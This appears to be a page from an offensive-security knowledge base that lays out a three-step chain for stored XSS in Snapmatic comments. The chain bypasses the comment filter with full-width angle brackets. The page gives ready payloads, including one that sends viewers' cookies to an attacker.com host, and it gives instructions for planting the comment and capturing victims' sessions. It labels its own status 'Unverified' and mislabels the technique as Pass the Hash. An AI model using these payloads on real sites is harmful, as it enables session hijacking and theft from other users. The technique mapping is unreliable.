

# Stored XSS in Snapmatic Comments via Full-Width Bracket Bypass

Multi-stage attack chain demonstrating a complete attack workflow exploiting a stored XSS vulnerability in Snapmatic comments due to inconsistent filtering of full-width angle brackets (＜ and ＞).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)

### Target Environment

- Web platform with Snapmatic UGC comments feature
- Access to post comments on the platform

### Initial Access Requirements

- Valid user account on the target platform
- No special privileges needed beyond comment submission

## Detailed Attack Procedures

### Step 1: Craft XSS Payload
procedure: [[procedures/Craft-XSS-Payload-with-Full-Width-Brackets]]

**Objective**: Create a JavaScript payload that bypasses sanitization using full-width angle brackets to inject executable script.

**Instructions**: Use full-width characters ＜ and ＞ to wrap a script tag, as standard < and > are filtered. Example payload: `＜script＞alert(document.cookie)＜/script＞` or for exfiltration: `＜script＞fetch('https://attacker.com?cookie='+document.cookie)＜/script＞`.

**Expected Output**: A string that appears as harmless text but renders as executable JS.

**Success Indicators**:
- Payload evades client-side preview filters
- Script tag is not stripped during input

### Step 2: Submit Malicious Comment
procedure: [[procedures/Submit-Malicious-Comment-to-Snapmatic]]

**Objective**: Inject the crafted payload into a persistent comment section where it will be stored and served to other users.

**Instructions**: Log into the Snapmatic platform, navigate to a photo or UGC item, and enter the payload in the comments field. Submit the comment.

**Expected Output**: Comment is accepted and stored without error.

**Success Indicators**:
- Comment appears in the list for the UGC item
- No immediate sanitization error on submission

### Step 3: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-Execution-for-Session-Hijack]]

**Objective**: View the infected comment to execute the JS, stealing viewer sessions or performing other client-side attacks.

**Instructions**: Have a target user (or yourself in another session) view the UGC item with the malicious comment. The payload executes on page load, potentially sending cookies to an attacker-controlled server.

**Expected Output**: JS alert or network request to attacker server with stolen data.

**Success Indicators**:
- Alert box pops up or network tab shows exfiltration request
- Victim's session cookies are captured

## Attack Chain Summary

### Key Achievements

1. Bypassed XSS filters using full-width Unicode characters
2. Achieved persistent script injection in UGC comments
3. Enabled arbitrary JS execution for session theft on viewers

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Pass the Hash]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
